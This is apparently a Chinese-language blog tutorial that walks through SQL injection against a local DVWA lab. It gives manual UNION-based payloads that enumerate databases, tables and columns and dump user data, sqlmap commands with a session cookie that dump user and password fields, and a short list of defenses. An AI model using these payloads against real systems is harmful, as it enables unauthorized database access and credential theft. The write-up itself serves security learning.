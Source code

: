 ```yaml
---
title: 记SQL注入漏洞操练
author: Pandaho
date: 2021-08-09 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/sql-injection/cover.png
---
```





## 法律声明

**中华人民共和国刑法：** 第285、286、287条

**第二百八十五条** 违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

**第二百八十六条** 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

**第二百八十七条** 利用计算机实施金融诈骗、盗窃、贪污、挪用公款、窃取国家秘密或者其他犯罪的，依照本法有关规定定罪处罚。



## 用知识的土壤来填埋这些坑洞

注入漏洞一直以来都处于[OWASP](https://owasp.org/www-project-top-ten/)榜首  
我们可以看下该项目对于注入的解释  
几乎任何数据源都可以是注入向量、环境变量、参数、外部和内部 Web 服务以及所有类型的用户。

当攻击者可以向解释器发送恶意数据时，就会出现注入缺陷。

通过[乌云](http://wooyun.2xss.cc/)我们可以看到现实存在大量注入案例

所谓SQL注入，就是通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。我们永远不要信任用户的输入，我们必须认定用户输入的数据都是不安全的，我们都需要对用户输入的数据进行过滤处理。  

## 危害：  

1、数据库信息泄露；  
2、私自添加系统账户；  
3、读写文件获取webshell；  
4、网页篡改：登录后台后发布恶意内容；  
5、网站挂马：拿到webshell获取服务器权限后，将网页木马挂在服务器上。 

这次我是使用DVWA搭建的靶机来进行SQL注入，DVWA的搭建方式我已经在其他文章详细写过了，这次就不再说明了，不过补充下几点，因为我是使用docker搭建的，我们要测试sql注入，有些操作需要我们进入容器再进行sql测试。  
```sql
启动容器后，我们先查看
docker ps   # 查看正在运行的容器 
确定DVWA的容器id，进入docker容器路径，进入对应id的容器，再启动mysql
docker exec -it id /bin/bash 

运行dvwa后，打开SQL Injection，我们测试输入参数，能看到返回的结果，通过查看php可以看到
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
后端服务器查询sql数据库的代码；
审计代码后我们再进行字符型注入测试成功
SELECT first_name, last_name FROM users WHERE user_id ='1' and 1=1 ;#';
这段代码是利用' 将1这个参数能and 1=1来进行逻辑运算符判断，后面加入#将其余的都注释掉。
通过发现字符型注入成功，我们再进行列数判断的注入
1' order by  1,2 #
1' union select 1,2 #
通过1，2，3，……进行增量，返回查询失败时，我们就可以判断该表的列数显示位。

ORDER BY 语句
ORDER BY 语句用于根据指定的列对结果集进行排序。
ORDER BY 语句默认按照升序对记录进行排序。

SQL UNION 操作符
UNION 操作符用于合并两个或多个 SELECT 语句的结果集。
请注意，UNION 内部的 SELECT 语句必须拥有相同数量的列。列也必须拥有相似的数据类型。同时，每条 SELECT 语句中的列的顺序必须相同。

1' union select 1,database() #
可以查询到当前数据库
1' union select 1,version() #
可以查询到版本信息
1' union select 1,system_user() #
可以查询到系统用户名
1' union select 1,user() #
可以查询到数据库用户名
1' union select 1,current_user() #
可以查询到当前用户名
1' union select 1,session_user() #
可以查询到连接数据库的用户名
1' union select 1,@@datadir #
可以查询到数据存储路径
1' union select 1,@@basedir #
可以查询到数据库安装路径
1' union select 1,@@version_compile_os #
可以查询到安装版本信息

那现在我们就可以来爆数据了，MySQL 自带的信息数据库：
performance_schema 用于性能分析；
 information_schema 用于存储数据库元数据(关于数据的数据)，例如数据库名、表名、列的数据类型、访问权限等。

1' union select 1,SCHEMA_NAME  from information_schema.SCHEMATA #
可以爆出系统现有的数据库，再优化下格式
1' union select 1,group_concat(SCHEMA_NAME) from information_schema.SCHEMATA #

group_concat()
1、功能：将产生的同一个分组中的值连接起来，返回一个字符串结果。
2、语法：group_concat( [distinct] 要连接的字段 [order by 排序字段 asc/desc ] [separator '分隔符'] )
说明：通过使用distinct可以排除重复值；如果希望对结果中的值进行排序，可以使用order by子句；separator是一个字符串值，缺省为一个逗号。

我们之前已经爆出数据库名，现在再爆数据库内的表
1' union select 1,group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='dvwa' #

爆表后再爆表字段
1' union select 1,group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='users' #

爆字段后就可以爆数据了
1' union select 1,group_concat(first_name) from users #
```
环环相扣，每一步都不可忽略，从外到内拿到数据，但是这个是公开库，我们是在提前知道数据库的结构情况下爆的，难度就低很多了。

现在我们知道爆破的基本操作了，那每次爆破都如此复杂显然是不够人性化的，人类的本质都是懒惰的，所以才会有一系列工具被开发出来，[sqlmap](https://sqlmap.org/)也是其中一个。

sqlmap是一个开源的渗透测试工具，可以用来进行自动化检测，利用SQL注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎,针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令。

sqlmap支持MySQL, Oracle,PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird,Sybase和SAP MaxDB等数据库的各种安全漏洞检测。

```sql
我们copy注入路径，启动sqlmap
sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#" 
-u #注入点

sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#" --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch
--cookie cookie注入
--batch 从不询问用户输入，使用所有默认配置。 
查询cookie的方法可以使用 javascript:alert(document.cookie) 或fidder 抓包查询
```
![图例](/assets/img/sql-injection/1.png)
```sql
sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch --dbs
可以爆出目标数据库
available databases [4]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema

sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch -D dvwa --tables 
知道数据库后，可以爆出表
-D “” #指定数据库名
--tables  数据库表

sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch -D dvwa -T users  --columns
知道表后，再爆字段
–columns #列出字段
-T “” #指定表名

sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch -D dvwa -T users  -C user,password --dump --stop 5
知道字段后爆内容，并且进行解密
-C “” #指定字段
–dump  #列出指定数据库的表的字段的数据
--stop xxx 输出指定字段数量

sqlmap -u "http://192.168.80.128/vulnerabilities/sqli/?id=&Submit=Submit#"  --cookie="PHPSESSID=is5s61h4atbfmjivb6vcn8ejh3; security=low" --batch -D dvwa --count 
--count  爆出用户条目

```

由此可见sql注入的危害，而目前sql注入的防御方法主要有：  
代码层面：

1、转义用户输入的内容 

2、限制输入长度 

3、使用sql语句预处理（先将语句进行预编译，参数绑定后再传参）  
网络层面：部署waf（web防火墙）  
其他层面：定期进行安全渗透测试



## 参考来源

百度百科  
[sqlmap参数大全](https://www.cnblogs.com/Sylon/p/11747464.html)  

